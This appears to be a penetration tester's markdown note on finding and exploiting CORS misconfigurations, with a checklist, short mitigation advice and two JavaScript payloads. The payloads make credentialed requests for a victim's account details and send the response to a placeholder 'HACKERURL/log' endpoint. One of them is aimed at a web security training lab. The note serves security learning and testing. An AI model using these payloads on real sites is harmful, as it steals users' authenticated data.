 ```yaml
---
title: "CORS"
layout: notes
tags:
  - webapp
  - methodology
  - cors
  - FI_http-headers
  - Co_ssrf
  - Co_authorization-bypass
---
```

## Summary

CORS is defined when a header is set to allow various external domains access to resources on a given domain, as an addition to the same-origin-policy (SOP). The response header after a request will hold two relevant headers that state if the origin defined is allowed `Access-Control-Allow-Origin` and the request should include credentials `Access-Control-Allow-Credentials`, otherwise known as cookies, certificates, or auth headers. CORS is not a substitute for server-side protections and can potentially be leveraged to access internal resources if set to allow `null` or `*`. 

## Methodology

When looking for CORS vulnerabilities ask/try the following:
- [ ] **What other subdomains or domains need to access this resource?**
- [ ] **Where in this application is sensitive information given?**
- [ ] can you send an OPTIONS request to find allowed origins
- [ ] try `Origin: null`
	- [ ] `<iframe sandbox="allow-scripts allow-top-navigation allow-forms" srcdoc="JAVASCRIPT"></iframe>`
- [ ] try host header esque attacks to bypass domain restrictions
	- [ ] `expected.domain.evil.pwn` `evilexpected.domain`
- [ ] do you have XSS on a related domain
	- [ ] might need to urlencode some characters like + and < 
- [ ] try to downgrade to http and intercept request with mitm
- [ ] try to access an intranet resource

## Capabilities

SSRF  
Authorization Bypass  

## Found In

HTTP Headers  

## Tools/Examples

javascript to grab info if cors is allowed
```
#if null#<iframe sandbox="allow-scripts allow-top-navigation allow-forms" srcdoc="
<script>
    var xhr = new XMLHttpRequest();
    var url = 'SITEURL'
   
    xhr.onreadystatechange = function() {
        if (xhr.readyState == XMLHttpRequest.DONE){
            fetch('HACKERURL/log?key=' + xhr.responseText)
        }
    }

    xhr.open('GET', url + '/accountDetails', true);
    xhr.withCredentials = true
    xhr.send(null)
</script>
"></iframe> #if null#
```

try this too, helpful for XSS
```
<script>var req = new XMLHttpRequest(); req.onload = reqListener; req.open('get','https://YOUR-LAB-ID.web-security-academy.net/accountDetails',true); req.withCredentials = true;req.send();function reqListener() {location='HACKERURL/log?key='%2bthis.responseText; };%3c/script>
```

#### Mitigation

Origins with sensitive information should be specified in the ACAO  
Origins specified in `Access-Control-Allow-Origin` should be trusted  
Avoid using `Access-Control-Allow-Origin: null`  
Avoid * in internal networks  
CORS isn't a substitute for server security policies  











